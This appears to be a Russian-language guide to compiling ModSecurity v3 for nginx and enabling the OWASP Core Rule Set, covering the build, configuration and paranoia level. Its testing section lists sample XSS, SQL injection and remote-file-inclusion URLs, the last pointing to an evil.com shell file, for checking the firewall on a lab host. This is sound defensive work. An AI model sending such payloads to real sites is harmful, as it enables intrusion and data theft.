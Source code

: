 # Установка и настройка ModSecurity v3 с OWASP CRS для NGINX

## Шаг 1. Установка зависимостей

```bash
sudo apt update  # обновление списка пакетов
sudo apt install -y git g++ make automake libtool pkg-config libpcre3-dev \
    libxml2 libxml2-dev libyajl-dev libcurl4-openssl-dev libgeoip-dev \
    liblmdb-dev libssl-dev libxml2-utils libpcre2-dev  # установка всех необходимых библиотек для сборки libmodsecurity
```

## Шаг 2. Клонирование и сборка libmodsecurity (ModSecurity v3)

```bash
cd /usr/local/src  # переходим в рабочую директорию для исходников
sudo git clone --depth 1 https://github.com/SpiderLabs/ModSecurity  # клонируем репозиторий с минимальной историей
cd ModSecurity  # заходим в директорию исходников
sudo git submodule init  # инициализируем зависимости проекта
sudo git submodule update  # обновляем зависимости
sudo ./build.sh  # собираем необходимые зависимости и подготавливаем к сборке
sudo ./configure  # конфигурация сборки
sudo make  # сборка проекта (может занять ~15 минут)
sudo make install  # установка собранной библиотеки
```

### Проверка установки библиотеки

```bash
ls -lh /usr/local/lib | grep modsecurity  # проверяем наличие библиотеки в стандартной директории (если пусто — идем дальше)
sudo find / -name 'libmodsecurity*' 2>/dev/null  # ищем все файлы библиотеки в системе
```

Ожидаемые файлы:

- `libmodsecurity.so` — динамическая библиотека
- `libmodsecurity.a` — статическая (необязательная)
- `.so.3`, `.so.3.0.14` — символьные ссылки

## Шаг 3. Сборка модуля nginx для ModSecurity

```bash
cd /usr/local/src  # возвращаемся в исходную директорию
sudo git clone --depth 1 https://github.com/SpiderLabs/ModSecurity-nginx.git  # клонируем модуль для nginx
cd nginx-1.24.0  # переходим в директорию с исходниками nginx (установите заранее нужную версию)
sudo ./configure --with-compat --add-dynamic-module=../ModSecurity-nginx  # конфигурация nginx с добавлением модуля
sudo make modules  # собираем только модули (без полной сборки nginx)
ls -lh objs/ngx_http_modsecurity_module.so  # проверяем наличие собранного модуля
```

## Шаг 4. Установка и активация модуля nginx

```bash
cp objs/ngx_http_modsecurity_module.so /usr/lib/nginx/modules/  # копируем модуль в директорию модулей nginx
```

Добавить в начало `nginx.conf`:

```
load_module modules/ngx_http_modsecurity_module.so;  # загрузка модуля ModSecurity
```

Проверка и перезапуск:

```bash
nginx -t  # проверка конфигурации
systemctl restart nginx  # перезапуск nginx
```

## Шаг 5. Подготовка конфигурации ModSecurity

```bash
sudo mkdir -p /etc/nginx/modsec  # создаем директорию под конфиги
sudo wget -O /etc/nginx/modsec/modsecurity.conf https://raw.githubusercontent.com/SpiderLabs/ModSecurity/v3/master/modsecurity.conf-recommended  # скачиваем базовую конфигурацию
sudo cp /etc/nginx/modsec/modsecurity.conf /etc/nginx/modsec/modsecurity.conf.bak  # создаем бэкап
sudo nano /etc/nginx/modsec/modsecurity.conf  # редактируем файл
# Меняем:
# SecRuleEngine DetectionOnly -> SecRuleEngine On
sudo wget -O /etc/nginx/modsec/unicode.mapping https://raw.githubusercontent.com/SpiderLabs/ModSecurity/v3/master/unicode.mapping  # скачиваем файл маппинга
```

## Шаг 6. Подключение ModSecurity к nginx-сайту

```nginx
location / {
    modsecurity on;
    modsecurity_rules_file /etc/nginx/modsec/modsecurity.conf;
}
```

```bash
nginx -t  # проверка
systemctl restart nginx  # перезапуск
```

## Шаг 7. Подключение OWASP CRS

```bash
cd /etc/nginx/modsec  # переходим в директорию с конфигами
sudo git clone --depth 1 https://github.com/coreruleset/coreruleset.git  # клонируем репозиторий с правилами OWASP
sudo mv coreruleset owasp-crs  # переименовываем папку
sudo cp /etc/nginx/modsec/owasp-crs/crs-setup.conf.example /etc/nginx/modsec/owasp-crs/crs-setup.conf  # копируем базовый конфиг
```

Добавить в конец `modsecurity.conf`:

```
Include /etc/nginx/modsec/owasp-crs/crs-setup.conf
Include /etc/nginx/modsec/owasp-crs/rules/*.conf
```

Проверка и перезапуск:

```bash
nginx -t
systemctl reload nginx
```

---

## Тестирование

**1. XSS**  
URL: `https://laravel.lab.local/?test=<script>alert(1)</script>`

**2. SQLi**  
URL: `https://laravel.lab.local/?id=1'+or+'1'='1`

**3. RFI**  
URL: `https://laravel.lab.local/?file=http://evil.com/shell.txt`

---

## Просмотр логов

```bash
cat /etc/nginx/modsec/modsecurity.conf | grep 'audit'  # находим путь до логов
tail -n 20 /var/log/modsec_audit.log  # просмотр последних записей
```

---

## Повышение Paranoia Level

```bash
nano /etc/nginx/modsec/owasp-crs/crs-setup.conf
```

Добавить или изменить:

```
SecAction \
    "id:900000,\
    phase:1,\
    pass,\
    t:none,\
    nolog,\
    tag:'OWASP_CRS',\
    ver:'OWASP_CRS/4.17.0-dev',\
    setvar:tx.blocking_paranoia_level=2"
```

---

Готово.
